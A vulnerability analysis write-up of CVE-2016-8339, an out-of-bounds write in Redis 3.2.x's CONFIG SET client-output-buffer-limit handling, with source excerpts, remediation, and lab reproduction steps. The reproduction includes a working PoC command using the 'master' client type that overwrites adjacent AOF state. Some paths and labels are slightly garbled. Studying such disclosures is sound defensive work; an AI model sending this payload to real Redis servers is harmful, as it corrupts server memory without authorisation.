





# CVE-2016-8339 CWE-787 Redis buffer overflow

## Vulnerability Background
- **AOF (Append-Only File):** A persistence mechanism provided by Redis to record all commands written to the database. The AOF state domain is part of the Redis server configuration and is used to manage the state and behavior of AOF persistence. Redis logs all commands written to the database into AOF files to record database status.
- **Output buffer:** When the Redis server sends data to the client, this data is temporarily stored in the client's output buffer. If the client cannot process this data in time (for example, due to network latency or slow client processing speed), the buffer will gradually increase. Without limits, the buffer could grow indefinitely, eventually exhausting the server's memory resources.

## Vulnerability Mechanism
Redis version 3.2.x had a buffer overflow vulnerability prior to version 3.2.4, where sending carefully crafted commands would result in arbitrary code execution. When handling client-side output buffer limiting options, the CONFIG SET command stored in the Redis data structure has an out-of-bounds write vulnerability. Well-crafted CONFIG SET commands may cause out-of-bounds writes, potentially triggering code execution.

## Vulnerability Location
1. In the **src \config .c** file, the `configSetCommand` function at line **717**, where the `for` loop at line **849** is used to handle `CONFIG SET client-output-buffer-limit` commands and set output buffer limits for different client types. This loop iterates through the list of incoming parameters, processing four parameters at a time (one client type and three limit values), and fetchs the client type through `getClientTypeByName ` functions.

   ```c
   //src\config.c 849    
   /* Finally set the new config */
   for (j = 0; j < vlen; j += 4) {
       int class;
       unsigned long long hard, soft;
       int soft_seconds;
   
       class = getClientTypeByName(v[j]); Return values from 0 to 3
       hard = strtoll(v[j+1],NULL,10);
       soft = strtoll(v[j+2],NULL,10);
       soft_seconds = strtoll(v[j+3],NULL,10);
   
       server.client_obuf_limits[class].hard_limit_bytes = hard;
       server.client_obuf_limits[class].soft_limit_bytes = soft;
       server.client_obuf_limits[class].soft_limit_seconds = soft_seconds;
   }
   ```

   Trace `getClientTypeByName ` function, in the **src \networking .c** file, line **1747**, `getClientTypeByName ` function compares by simple string type and then returns different values. At line **288** of the **src \server.h** file, the macro for the return value is defined, so the value of `class` is 0-3.

   ```c
   // src\networking.c 1747
   int getClientTypeByName(char *name) {
       if (!strcasecmp(name,"normal")) return CLIENT_TYPE_NORMAL;
       else if (!strcasecmp(name,"slave")) return CLIENT_TYPE_SLAVE;
       else if (!strcasecmp(name,"pubsub")) return CLIENT_TYPE_PUBSUB;
       else if (!strcasecmp(name,"master")) return CLIENT_TYPE_MASTER;
       else return -1;
   }
   ```

   ```c
   // src\server.h 288
   #define CLIENT_TYPE_NORMAL 0 /* Normal req-reply clients + MONITORs */
   #define CLIENT_TYPE_SLAVE 1  /* Slaves. */
   #define CLIENT_TYPE_PUBSUB 2 /* Clients subscribed to PubSub channels. */
   #define CLIENT_TYPE_MASTER 3 /* Master. */
   ```

2. Return to the `configSetCommand` function in step one. After obtaining the value of `class`, line **860** uses it as the index in the `server.client_obuf_limits[]` array.

   ```c
   // src\server.h 260
   server.client_obuf_limits[class].hard_limit_bytes = hard;
   server.client_obuf_limits[class].soft_limit_bytes = soft;
   server.client_obuf_limits[class].soft_limit_seconds = soft_seconds;
   ```

   trace `server.client_obuf_limits[]` array, and at line **796** of the **src \server.h** file, define the `client_obuf_limits` function, with size `CLIENT_TYPE_OBUF_COUNT`. In line **292**, `CLIENT_TYPE_OBUF_COUNT` is defined as 3.

   ```c
   // src\server.h 796
   clientBufferLimitsConfig client_obuf_limits[CLIENT_TYPE_OBUF_COUNT];
   /* AOF persistence */
   int aof_state;                  /* AOF_(ON|OFF|WAIT_REWRITE) */
   int aof_fsync;                  /* Kind of fsync() policy */
   char *aof_filename;             /* Name of the AOF file */
   int aof_no_fsync_on_rewrite;    /* Don't fsync if a rewrite is in prog. */
   int aof_rewrite_perc;           /* Rewrite AOF if % growth is > M and... */
   ```

   ```c
   // src\server.h 292
   #define CLIENT_TYPE_OBUF_COUNT 3 /* Number of clients to expose to output
                                       buffer configuration. Just the first
                                       three: normal, slave, pubsub. */
   ```

3. After the above analysis, we can find that the size of the `client_obuf_limits` array is 3, which is indexed as [0,2], but the value of `class` is [0,3]. This means that when `class` takes 3, i.e., when the client type is `master`, array indexing outbounds occur, which is where the **<u> vulnerability </u> ** lies.

   Next, let's analyze the `client_obuf_limits` array. In step 2, you can see it is an array of structures with `clientBufferLimitsConfig`. Tracking the `clientBufferLimitsConfig` structure, at line **660** of the **src \server .h** file, the structure size is 24 bytes, indicating that the attacker can write up to 24 bytes of data after `client_obuf_limits` array.

   In step 2, the code for defining the `client_obuf_limits` array follows the structure definition, so attackers can overwrite these fields and write data by setting the value of `master`. This is the <u> verification flag for POC code execution. </u> **

   ```c
   // src\server.h 660
   typedef struct clientBufferLimitsConfig {
       unsigned long long hard_limit_bytes;
       unsigned long long soft_limit_bytes;
       time_t soft_limit_seconds;
   } clientBufferLimitsConfig;
   ```

## Remediation
Added a `CLIENT_TYPE_MASTER` check for whether `class` equals , i.e., check client type `master`; if so, no assignment is performed and the error function is redirected instead.

## Affected Versions
Redis 3.2.x < 3.2.4

## Environment Setup
Start the Docker environment, Redis version 3.2.2



## Vulnerability Reproduction
1. Use redis-cli to connect locally to Redis, and use the command to get the configuration value of the current `client-output-buffer-limit` parameters. From the returned results, you can see that `client-output-buffer-limit` only expects to set up three types of clients: `normal`, `slave`, and `pubsub`

```bash
redis-cli -h 127.0.0.1 -p 6379
CONFIG GET client-output-buffer-limit
```



2. Use the command to set the output buffer limit for the `slave` client to no hard limit, no soft limit, and no time threshold. Reobtaining the current configuration value will show that the modification has been successful

```bash
CONFIG SET client-output-buffer-limit "slave 0 0 0"
```



3. When we try to set an invalid client type, such as `test`, the command returns an error

```bash
CONFIG SET client-output-buffer-limit "test 0 0 0"
```



4. First, use the `INFO persistence` command to view detailed status information for Redis. This will return a detailed AOF configuration and status. If we run a POC to set the client type to `master`, it will show that the setup was successful. Next, re-examine Redis's detailed status information, and you can see that `aof_enabled` is set to 1, and other AOF status information such as `aof_current_size` appears. However, the configuration value does not change, indicating that the POC caused the `client_obuf_limit` array to overflow, overwriting subsequent structure variables, which caused the AOF (Append Only File) feature of the Redis instance to be unexpectedly enabled after setting the "master" type client's output buffer limit.

```bash
INFO persistence

CONFIG SET client-output-buffer-limit "master 3735928559 3405691582 373529054"
```



## PoC Analysis

```bash
CONFIG SET client-output-buffer-limit "master 3735928559 3405691582 373529054"
```

POC is used to set the output buffer limit for client type `master`

Although `client-output-buffer-limit` only expects clients of types `normal`, `slave`, and `pubsub`, `master` is also a valid client. By providing client type `master`, `client_obuf_limit` arrays are overwhelmed, causing subsequent structural variables to be overwritten.

## References
[Buffer overflow from versions 3.2.4 prior to Redis 3.2.x caused... · CVE-2016-8339 · GitHub Database Consultation --- A buffer overflow in Redis 3.2.x prior to 3.2.4 causes... · CVE-2016-8339 · GitHub Advisory Database](https://github.com/advisories/GHSA-33p7-cjfg-8vc5)

[TALOS-2016-0206 || Cisco Talos Intelligence Group - Integrated Threat Intelligence --- TALOS-2016-0206 || Cisco Talos Intelligence Group - Comprehensive Threat Intelligence](https://talosintelligence.com/vulnerability_reports/TALOS-2016-0206/)

[Tahir's Wiki](https://tahirmars.github.io/wiki/)

[Redis CVE-2016-8339 Analysis](https://bestwing.me/Redis-CVE-2016-8339-analysis.html#POC)

[Security: CONFIG SET client-output-buffer-limit overflow fixed. · antirez/redis@6d9f8e2](https://github.com/antirez/redis/commit/6d9f8e2462fc2c426d48c941edeb78e5df7d2977)
